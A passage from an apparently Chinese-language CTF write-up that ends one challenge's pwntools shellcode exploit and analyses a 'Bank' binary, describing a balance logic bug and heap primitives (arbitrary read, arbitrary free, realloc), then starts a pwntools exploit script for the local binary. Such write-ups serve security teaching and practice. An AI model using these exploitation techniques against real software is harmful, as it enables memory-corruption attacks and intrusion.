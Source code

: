 ```python
  mov rax, 1
  mov rsi, r8
  mov rdx, 0x40
  syscall
  
  """
 )
 p.send(code)

debugPID()
send_code()
debugPID()
irt()
```

# Bank

IDA就不上图了，浅浅分析下功能。

`deposit`中有当`money = balance`的时候不会`return`而是会执行`cash += money`，但是`reduce_money`中`money = balance`时会`return`而不扣除`banlance`中的钱。

![image-20220716112027434](https://cdn.novanoir.moe/img/image-20220716112027434.png)

![image-20220716112044433](https://cdn.novanoir.moe/img/image-20220716112044433.png)

所以可以利用`put`和`deposit`用来刷钱。

主要是`transfer`是漏洞点。`admin`可以用来任意读堆上的地址，`hacker`可以用来任意地址`free`，`ghost`可以`realloc` `ptr`这个堆，`guest`可以用来`malloc`一个`0x18`的堆并且写`0x10`，`abyss`可以把初始化中的`result`执行`*result=read_ui()`并触发`exit(0);`

先写好菜单，因为一开始没考虑完全所以就把`transfer`写的复杂了一点，其实分开写就好（）

```python
from typing import Union, AnyStr, Tuple, Literal
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')

sh = process(['./Bank'])
libc = ELF('./libc-2.31.so')

Money = Union[AnyStr, int, float]


def to_bytes(content: Money):
    return content if isinstance(content, bytes) else str(content).encode()


def menu(index: Literal[0, 2, 3, 4, 5, 6]):
    """

    :param index: 0: Quit, 2: Deposit, 3: Transfer, 4: Put, 5: Login, 6: Info
    :return:
    """
    choice = ['Quit', "", 'Deposit', "Transfer", "Put", "Login", "Info"]
    sh.recvuntil(b"Click: ")
    sh.sendline(choice[index].encode())


def login(card_number: AnyStr, password: AnyStr):
    menu(5)
    sh.sendlineafter(b"Card Numbers: ", to_bytes(card_number))
    sh.sendlineafter(b"Password: ", to_bytes(password))
```